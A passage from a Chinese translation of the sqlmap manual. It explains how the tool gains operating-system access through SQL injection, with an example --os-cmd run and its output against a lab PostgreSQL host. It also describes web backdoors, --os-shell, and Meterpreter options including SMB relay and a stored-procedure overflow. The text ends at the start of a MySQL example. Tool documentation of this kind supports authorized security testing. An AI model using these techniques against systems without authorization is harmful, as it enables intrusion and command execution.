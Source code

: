 当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。

在MySQL、PostgreSQL，sqlmap上传一个二进制库，包含用户自定义的函数，sys_exec()和sys_eval()。

那么他创建的这两个函数可以执行系统命令。在Microsoft SQL Server，sqlmap将会使用xp_cmdshell存储过程，如果被禁（在Microsoft SQL Server 2005及以上版本默认禁制），sqlmap会重新启用它，如果不存在，会自动创建。

列举一个PostgreSQL的例子：

	$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" \
	--os-cmd id -v 1
	
	[...]
	web application technology: PHP 5.2.6, Apache 2.2.9
	back-end DBMS: PostgreSQL
	[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system
	[hh:mm:12] [INFO] the back-end DBMS operating system is Linux
	[hh:mm:12] [INFO] testing if current user is DBA
	[hh:mm:12] [INFO] detecting back-end DBMS version from its banner
	[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist
	[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist
	[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file
	[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file
	do you want to retrieve the command standard output? [Y/n/a] y
	command standard output:    'uid=104(postgres) gid=106(postgres) groups=106(postgres)'
	
	[hh:mm:19] [INFO] cleaning up the database management system
	do you want to remove UDF 'sys_eval'? [Y/n] y
	do you want to remove UDF 'sys_exec'? [Y/n] y
	[hh:mm:23] [INFO] database management system cleanup finished
	[hh:mm:23] [WARNING] remember that UDF shared object files saved on the file system can 
	only be deleted manually
用--os-shell参数也可以模拟一个真实的shell，可以输入你想执行的命令。

当不能执行多语句的时候（比如php或者asp的后端数据库为MySQL时），仍然可能使用INTO OUTFILE写进可写目录，来创建一个web后门。支持的语言：

1、ASP
2、ASP.NET
3、JSP
4、PHP

####  Meterpreter配合使用

	参数：--os-pwn,--os-smbrelay,--os-bof,--priv-esc,--msf-path,--tmp-path

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数，可以在数据库与攻击者直接建立TCP连接，这个连接可以是一个交互式命令行的Meterpreter会话，sqlmap根据Metasploit生成shellcode，并有四种方式执行它：

1. 通过用户自定义的sys_bineval()函数在内存中执行Metasplit的shellcode，支持MySQL和PostgreSQL数据库，参数：--os-pwn。
2. 通过用户自定义的函数上传一个独立的payload执行，MySQL和PostgreSQL的sys_exec()函数，Microsoft SQL Server的xp_cmdshell()函数，参数：--os-pwn。
3. 通过SMB攻击(MS08-068)来执行Metasploit的shellcode，当sqlmap获取到的权限足够高的时候（Linux/Unix的uid=0，Windows是Administrator），--os-smbrelay。
4. 通过溢出Microsoft SQL Server 2000和2005的sp_replwritetovarbin存储过程(MS09-004)，在内存中执行

####  Metasploit的payload
	参数：--os-bof
列举一个MySQL例子：
